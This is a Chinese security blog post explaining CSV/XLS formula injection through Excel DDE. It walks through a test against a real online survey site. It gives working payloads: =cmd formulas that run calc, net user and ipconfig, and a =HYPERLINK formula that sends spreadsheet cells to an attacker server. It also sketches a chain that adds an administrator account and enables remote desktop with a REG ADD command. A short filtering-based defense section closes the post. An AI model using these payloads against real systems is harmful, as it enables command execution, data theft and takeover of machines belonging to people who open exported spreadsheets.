 > 原文链接: https://www.anquanke.com//post/id/84497 


# 【技术分享】CSV/XLS Injection Vulnerability 分析利用和YY


                                阅读量   
                                **159996**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t01fdb6e8a7d6b32271.jpg)](https://p2.ssl.qhimg.com/t01fdb6e8a7d6b32271.jpg)

**作者：sdl0day_柳兮**

**稿费：500 RMB**

**0x00 概述 and DDE**

前段时间看见有人写文章讲csv注入的问题，了解后发现在国外两年前已经有人提了，今天有空也来看看这个漏洞。注入漏洞作为漏洞圈的常客，一般都是由于盲目信任用户可控的数据造成的，也就是平时常说的一句话：All put is evil。

再说下DDE，Windows的DDE机制基于Windows的消息机制。两个Windows应用程序通过相互之间传递DDE消息进行DDE会话(Conversation)，从而完成数据的请求、应答、传输。这两个应用程序分别称为服务器(Server)和客户(Client)。服务器是数据的提供者，客户是数据的请求和接受者。

**<br>**

**0x01 csv/xls 注入 and DDE**

在Excel单元格中，已=或-开头的单元格，里面的内容会按照公式来运行，结合DDE，就可以执行一些系统命令，=DDE(“cmd”;”/C calc”;”__DdeLink_60_870516294″)，如下图所示。这里测试用了office2013，注入的命令执行时弹出告警提示框是因为在CVE-2014-3524中修复过这个问题，所以推荐在低版本进行测试，效果会更好。

```
测试用例：=cmd|’ /C calc’!A0    -cmd|’ /C calc’!A0
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://7xqesj.com1.z0.glb.clouddn.com/wp-content/uploads/2016/09/csv0.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://7xqesj.com1.z0.glb.clouddn.com/wp-content/uploads/2016/09/csv1.png)

**<br>**

**0x02 漏洞实例测试-执行系统命令**

这里我选择某个在线问卷网进行测试，首先发起一个问卷调查，然后扫码模拟普通用户进行填写，写入以下攻击代码，最后提交。

测试用例：



```
=cmd|’ /C calc’!A0       =HYPERLINK(“http://192.168.1.111:8000/?test=”&amp;D2&amp;D3,”Error: Please click me!”)
=cmd|’ /k net user’!A0        =cmd|’ /k ipconfig’!A0
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://7xqesj.com1.z0.glb.clouddn.com/wp-content/uploads/2016/09/csv2.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://7xqesj.com1.z0.glb.clouddn.com/wp-content/uploads/2016/09/csv3.png)

然后在本地用python起一个简单的服务器，监听8000端口，用来测试利用=HYPERLINK跳转访问恶意网站，窃取文档中的敏感信息的漏洞。原理很简单，在你的服务器日志中看访问网站的HTTP请求即可，当然你也可以记录来请求的ip地址，后面也有机会用到。

这里也说一下=HYPERLINK几种简单的用法：



```
=HYPERLINK(“#A1″,”跳到A1单元格”)
=HYPERLINK(“C:Userssdl0dayDesktop武器库”,”武器库”)
=HYPERLINK(“http://www.sdl0day.com/”,”点我访问网站”)
```

正常情况下，问卷调查结束后，问卷发起人会导出问卷调查结果到本地就行查看，当问卷发起人点击存在攻击代码的单元格后，即可触发命令执行；这里我导出后是xls格式（csv格式同理，本地测试结果和xls格式一致），打开后点击单元格，测试结果如下（当前账户：administrator权限），可以看到成功执行了我们在问卷填写提交的命令：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://7xqesj.com1.z0.glb.clouddn.com/wp-content/uploads/2016/09/csv4.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://7xqesj.com1.z0.glb.clouddn.com/wp-content/uploads/2016/09/csv5.png)

**<br>**

**0x03 漏洞其他利用姿势-添加管理员账户并窃取xls中的数据**

今天我又yy了一下，如果目标机器安装的office版本较低或者没有及时打补丁，我们在提交的数据中依次填入添加管理员账户命令，利用cmd /c 隐藏执行命令，同时利用=HYPERLINK窃取表格里的部分数据发送到攻击者的服务器，也可以获取到目标机器的IP地址，这样如果目标机器允许3389连接，那还是有一定的概率拿下的。当然了这个概率很低，跟买彩票差不多了，但不失为一个思路，社工的时候也许会有奇效，具体利用方式如下。

来yy一下点击顺序为：问卷发起人点击有攻击代码的单元格（低版本office，xp系统）–&gt;执行命令添加用户–&gt;加入到管理员组—&gt;=HYPERLINK访问你的网站获取目标ip–&gt;然后你登录过去。。。。3389万一没开，xp这种老机器还可以   REG ADD HKLMSYSTEMCurrentControlSetControlTerminal” “Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f  开一下（单纯的yy，咳咳，回到正题）。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://7xqesj.com1.z0.glb.clouddn.com/wp-content/uploads/2016/09/csv6.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://7xqesj.com1.z0.glb.clouddn.com/wp-content/uploads/2016/09/csv8.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://7xqesj.com1.z0.glb.clouddn.com/wp-content/uploads/2016/09/csv7.png)

**<br>**

**0x04 csv/xls 全文数据窃取**

evi1m0在他的文章中写了这么一段话，我本地没有2016的版本没有测试，所以给大家分享过来，有兴趣的同学可以试一试，可以的话欢迎分享测试结果给我。

“2016 之前的 excel 和其他的版本的连接字符串的函数 concatenate 不支持 cell range 的语法，也不能自定义函数，这样的话就没有办法简写，只能生成比较长的url，但 2016 之后的 excel 我们可以使用 concat 函数，支持传入一个 range，比如 concat(A1:A10) ，这样便能直接读取整个表格中的数据。”

**<br>**

**0x05  漏洞防御**

通用粗暴方案：过滤=或-号开头的单元格数据，过滤=(-)cmd或=(-)HYPERLINK或concat(等。

当然粗暴的方案肯定会有问题，比如某些业务场景下就有输入特殊格式字符串的需求，因此可以替换攻击代码中的关键字符也可以试试，比如把|转换为¦等，同时在后端配合正则进行校验，主要还是看业务场景。

**<br>**

**0x06 参考文章**

1.[http://www.contextis.com/resources/blog/comma-separated-vulnerabilities](http://www.contextis.com/resources/blog/comma-separated-vulnerabilities)

2.[http://www.n0tr00t.com/2016/05/17/CSV-Injection.html](http://www.n0tr00t.com/2016/05/17/CSV-Injection.html)

3.[http://www.securityfocus.com/bid/69351](http://www.securityfocus.com/bid/69351)
